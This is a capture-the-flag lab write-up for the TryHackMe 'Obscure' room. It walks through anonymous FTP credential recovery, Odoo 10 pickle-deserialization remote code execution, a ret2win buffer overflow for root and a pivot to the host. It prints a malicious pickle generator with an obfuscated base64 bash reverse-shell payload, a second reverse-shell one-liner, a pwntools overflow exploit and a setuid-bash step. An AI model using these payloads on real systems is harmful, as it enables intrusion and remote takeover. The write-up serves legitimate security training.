## TL;DR


### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```


We can see port `21` open with ftp, port `22` with ssh and port `80` with Werkzeug httpd server.
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                                                                                  
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.3                                                                                                                                             
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                                                                       
|_drwxr-xr-x    2 65534    65534        4096 Jul 24  2022 pub                                                                                                                                
| ftp-syst:                                                                                                                                                                                  
|   STAT:                                                                                                                                                                                    
| FTP server status:                                                                                                                                                                         
|      Connected to ::ffff:192.168.164.248                                                                                                                                                   
|      Logged in as ftp                                                                                                                                                                      
|      TYPE: ASCII                                                                                                                                                                           
|      No session bandwidth limit                                                                                                                                                            
|      Session timeout in seconds is 300                                                                                                                                                     
|      Control connection is plain text                                                                                                                      
|      Data connections will be plain text                                                                                                                   
|      At session startup, client count was 2                                                                                                                
|      vsFTPd 3.0.3 - secure, fast, stable                                                                                                                   
|_End of status                                                                                                                                              
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)                                                            
| ssh-hostkey:                                                                                                                                               
|   2048 e2:91:5c:43:c1:81:19:6e:0a:28:e8:16:78:c6:d5:c0 (RSA)                                                                                               
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDUm+0vYzeki5r+p0e9VSBEwMVzCpoAU4ZJChMXFmLxmUCK5VMiEe1SysKfr+1+eS/f3AGVEGB4FWkGgpy6LY/+VuYcmEosPtrGfEdXhyYjuYXhpZ6N/veupvI49VYgPDN/OOfmN+uxGNjsuHb2qo3
g8eHm9WZGGLF31BTzYn+b2Ei3eD/E/OrBIIhafdXtXLVt7rg3phr6Wxg87he9QrHSCuUwav6QlI0BkFzVlndqonu04tw27tBMRiIrNb45FbWukHZoJPa2pXAuS04wduZBVqVGUhODyZozy+IoAiGqRu95qYZEqUO5EewYEonZOR3Qs2Buy9PHDSt5IZy8
I1eP                                                                                                                                                         
|   256 db:f8:7e:ca:5e:24:31:f9:07:57:8b:8d:74:cb:fe:c1 (ECDSA)                                                                                              
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG+lk85La3T3xvMi1ZQBFyX88tzW77WMCX1AZi0HVEZQTJK2UWLdFSJCctW91FCL8ZPAMvAVz3CvTCQrq6cM+Dw=
|   256 40:6e:c3:a8:fb:df:15:d1:2b:9c:0f:c5:60:ba:e0:b6 (ED25519)                                                                                            
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEkXVxsxv+wk2hyb9TGEJc+GdOiYel/OqY9fojqlQrXy                                                                           
80/tcp open  http    syn-ack ttl 61 Werkzeug httpd 0.9.6 (Python 2.7.9)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).                                                                                          
| http-methods:                                                                                                                                              
|_  Supported Methods: GET HEAD OPTIONS                             
| http-cookie-flags:                                                          
|   /:                                                                                                                                                       
|     session_id: 
|_      httponly flag not set                                                 
|_http-server-header: Werkzeug/0.9.6 Python/2.7.9                                                                                                            
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `obscure.thm` to my `/etc/hosts`.

### Find credentials in anonymous ftp service

we first can see the ftp service allows anonymous login



So, I fetched all the files using the command:
```bash
wget -m ftp://anonymous@obscure.thm
```

The notice says they've made temporary application program:
```bash
┌──(agonen㉿kali)-[~/thm/Obscure/obscure.thm/pub]
└─$ cat notice.txt 
From antisoft.thm security,


A number of people have been forgetting their passwords so we've made a temporary password application.
```

I execute the binary `password`, and it asks for some number.
Using `ltrace` I found the number is `971234596`, and then it gave me some password



```bash
┌──(agonen㉿kali)-[~/thm/Obscure/obscure.thm/pub]
└─$ ./password       
Password Recovery
Please enter your employee id that is in your email
971234596
remember this next time 'SecurePassword123!'
```

So, we got the password `SecurePassword123!`, which is the master password we can use in the website.

### Exploit pickling to RCE in odoo version 

when going to root page, we are being redirected to this login page:



I guess the email is `admin@antisoft.thm`, because we found the domain `antisoft.thm` inside `notice.txt`.

We can try to login with the credentials:
```bash
admin@antisoft.thm:SecurePassword123!
```


Now, we can find the version
```bash
Odoo 10.0-20190816 (Community Edition)
```


we find out this is vulnerable to `RCE`, here is an exploit [https://www.exploit-db.com/exploits/44064](https://www.exploit-db.com/exploits/44064)

this is the PoC:
> In order to exploit the vulnerability, you should navigate to the Apps page (the link is in the navigation bar at the top and search for and install “Database Anonymization” in the search bar. We have to deselect the “Apps” filter in the search bar for it to show up.

> Once we have the module installed, we navigate to the settings page and select “Anonymize database” under “Database anonymization” and click on the “Anonymize Database” button. Next, we refresh the page and navigate to the same page under settings. We upload the “exploit.pickle” file generated our script and click on “Reverse the Database Anonymization” button. We should have a reverse shell.


Let's follow this steps:
First, let's install "Database Anonymization"



we can use this script to generate the malicious pickle file, I used the payload from `penelope`:
```py

import cPickle	
import os
import base64
import pickletools

class Exploit(object):
	def __reduce__(self):
		return (os.system, (("printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash"),))

with open("exploit.pickle", "wb") as f:
	cPickle.dump(Exploit(), f, cPickle.HIGHEST_PROTOCOL)
```

Notice, we execute the script with `python2.7`!
```bash
python2.7 exploit.py
```

Now, let's upload it, and then click the "Reverse the Database Anonymization":



and we got the reverse shell.



and this is the first flag:
```bash
odoo@b8a9bbf1f380:~$ cat flag.txt 
THM{1243b64a3a01a8732ccb96217f593520}
```

### Privilege escalate to root in container using sudo on /ret

First, I saw we are not root on the machine, so we need to privilege escalate this.

I looked for SUID binaries, and found the file `/ret`
```bash
odoo@b8a9bbf1f380:/$ find / -user root -perm -u+s 2>/dev/null
/bin/mount
/bin/umount
/bin/ping
/bin/ping6
/bin/su
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/ret
```

we can see it let's us some way exploit the machine.



So, I downloaded the file and reverse engineer it.

First, we can check for the attributes of hte file:
```bash
┌──(agonen㉿kali)-[~/thm/Obscure]
└─$ checksec --file=./ret
[*] '/home/agonen/thm/Obscure/ret'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

It has no PIE and also NX, no protection at all.



Okay, I uploaded this into [https://dogbolt.org/?id=3aaa7ba3-e3d6-44bf-92b9-6c7fbeea8d0c#BinaryNinja=133](https://dogbolt.org/?id=3aaa7ba3-e3d6-44bf-92b9-6c7fbeea8d0c#BinaryNinja=133):


we can see classic buffer overflow.
 
So, I first found the address of the function `win`:
```bash
┌──(agonen㉿kali)-[~/thm/Obscure]
└─$ objdump -t ./ret | grep win
0000000000000000 l    df *ABS*  0000000000000000              ret2win.c
0000000000400646 g     F .text  000000000000002f              win
```

we could have used `radare2` to get the addresses:


Next, we want to find where exactly the return address is located.
So, first we'll generate the cyclic payload:
```py
>>> print(cyclic(140))  # Generate a 100-byte cyclic pattern
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaab'
>>> print(cyclic_find(0x6261616a))
136
```

and after executing:
```bash
strace ./ret
```

we'll give it the payload, and take where it crashes to find the exact location of the return address, in context of the begin of the buffer.


So, the address will be 136 bytes after the beginning of the buffer.
We'll use this script to exploit:
```py
from pwn import *

PATH = './ret'

ret_addr_pos = 136
ret_addr = 0x00400648 ## Changed the address after some testing, this is the real address of the function "win"

payload = ret_addr_pos * b'a'
payload += p32(ret_addr)

p = process(PATH)
p.sendline(payload)
p.interactive()

p.close()
```

here we executed the exploit locally:


Since there is no `pwn` module on the remote machine, we'll create `payload.bin` and use it.

Here we got our root escalation:
```bash
(cat payload.bin;cat) | /ret
```
give two enters before giving commands.



we can execute:
```bash
chmod u+s /bin/bash
```

and then get bash root shell:
```bash
odoo@b8a9bbf1f380:/tmp$ /bin/bash -p 
bash-4.3# id
uid=105(odoo) gid=109(odoo) euid=0(root) groups=109(odoo)
```

and the root flag:
```bash
bash-4.3# cat root.txt 
Well done,my friend, you rooted a docker container.
```

### Compromise another host using same /ret binary

Okay, we are inside a container. 
We can see our ip is `172.17.0.3`, so there is probably more machines on the internal network.

```bash
bash-4.3# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.3/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

I've uploaded `rustscan`:



Now we can execute it, I checked for 4 ip address (subnet 2 bits):
```bash
./rustscan -a 172.17.0.3/30
```


On ip `172.17.0.1` we can find several opened ports.
```bash
Nmap scan report for ip-172-17-0-1.ec2.internal (172.17.0.1)
Host is up (0.000027s latency).
Scanned at 2025-12-10 10:50:07 UTC for 1s
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
4444/tcp open  krb524
MAC Address: 02:42:59:FF:42:E3 (Unknown)
```

I tried to ncat port `4444`, and find out it has the same `/ret` we found here



So, let's try to get shell over the vulnerable binary:
```bash
(cat payload.bin;cat) | nc 172.17.0.1 4444
```

we got the shell.


I pasted the payload from `penelope`:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDMgMD4mMSkgJg==|base64 -d|bash
```
and we got the reverse shell:



we can grab the user flag:
```bash
zeeshan@hydra:~$ cat user.txt 
THM{43b0b68ba2755dd6cac3b8bf5454db94}
```

### Privilege Escalation to Root using buffer overflow and ret2libc on /exploit_me

I checked for sudo permissions:
```bash
zeeshan@hydra:/tmp$ sudo -l
Matching Defaults entries for zeeshan on hydra:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User zeeshan may run the following commands on hydra:
    (ALL : ALL) ALL
    (root) NOPASSWD: /exploit_me
```

Downloaded the file to analyze, using dogbolt [https://dogbolt.org/?id=d5b2a530-cae3-4a14-88af-8354ed474587](https://dogbolt.org/?id=d5b2a530-cae3-4a14-88af-8354ed474587)


In addition, we can check the attributes of the file:
```bash
┌──(agonen㉿kali)-[~/thm/Obscure]
└─$ checksec --file=exploit_me 
[*] '/home/agonen/thm/Obscure/exploit_me'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

Okay, the stack isn't executable.

This looks like binary exploitation, `ret2libc`, something like this [https://avishaigonen123.github.io/CTF_writeups/pwnable.kr/Rookiss/brain_fuck.html](https://avishaigonen123.github.io/CTF_writeups/pwnable.kr/Rookiss/brain_fuck.html). Would I finish that? Nah. maybe when I'll have time :D

[https://tryhackme.com/room/ret2libc](https://tryhackme.com/room/ret2libc)